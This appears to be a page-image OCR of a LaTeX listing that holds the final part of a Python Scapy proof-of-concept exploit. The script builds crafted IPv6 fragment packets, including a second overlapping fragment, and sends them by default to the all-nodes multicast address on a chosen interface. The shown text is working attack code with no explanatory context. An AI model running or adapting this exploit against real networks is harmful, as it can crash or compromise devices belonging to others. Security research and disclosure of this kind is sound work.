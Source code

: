 \documentclass{report}
\begin{document}
\begin{verbatim}
    print(f'Sending {len(frags)} fragments with a total size of 0x{hex(len(packet1))}')
    sendp(frags, iface= args.iface)

    packet2 = Ether() / IPv6(dst = args.target) / IPv6ExtHdrFragment(id = second_fragment_id, m = 0, offset = 1, nh = 17) / 'fritzboger' # dummy data

    sendp(packet2, iface = args.iface)

def main():
    parser = argparse.ArgumentParser()
    parser.add_argument('--target', default = 'ff02::1')
    parser.add_argument('--iface', default = 'eth1')
    args = parser.parse_args()

    exploit(args)
    
    return

if __name__ == '__main__':
    main()

\end{verbatim}
\label{listing:poc:python}
\end{document}
